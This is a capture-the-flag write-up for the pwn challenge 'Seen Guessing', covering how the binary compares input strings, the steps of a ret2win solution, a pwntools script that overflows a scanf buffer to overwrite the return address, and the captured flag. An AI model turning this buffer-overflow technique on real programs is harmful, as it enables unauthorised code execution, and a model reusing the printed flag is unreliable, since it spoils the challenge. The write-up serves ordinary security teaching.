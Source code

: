 https://ctftime.org/event/2601

# Seen Guessing (pwn)

Guess all the seens and you'll be rewarded with something special.

nc 164.92.176.247 5002

## Analysis

`main` @ `0x40127b`:

- Calls `scanf("%100s", local_28)` 7 times.
- Compares the attack controlled input to the strings pointed to by an array of `char *` called `seens` with `strcasecmp`

`win` @ `0x401216`:

- Reads the flag and prints it to stdout.

## Solution

1) Read the memory that contains the expected strings from the elf.
2) Provide each expected string padded up to 0x28 bytes.
    - Note that the string comparison will stop at the null-terminator so we don't really care how long the string is or what comes after this.
3) ret2win.
    - Note that technically we rewrite the return address 7 times you could do less than 7 times and it will still work.

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./chall", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("164.92.176.247", 5002)

for i in range(7):
    seen_addr = u64(elf.read(elf.sym["seens"] + (i*8), 8))
    p.sendlineafter(b"Enter a Seen: ", elf.read(seen_addr, 0x28) + p64(elf.sym["win"]))

p.readuntil(b"{")

print("FMCTF" + p.readuntil(b"}").decode()) # FMCTF{db8aa102093c65b674a0c216dac7cd73}
```

## Flag
`FMCTF{db8aa102093c65b674a0c216dac7cd73}`

smiley 2025/03/16
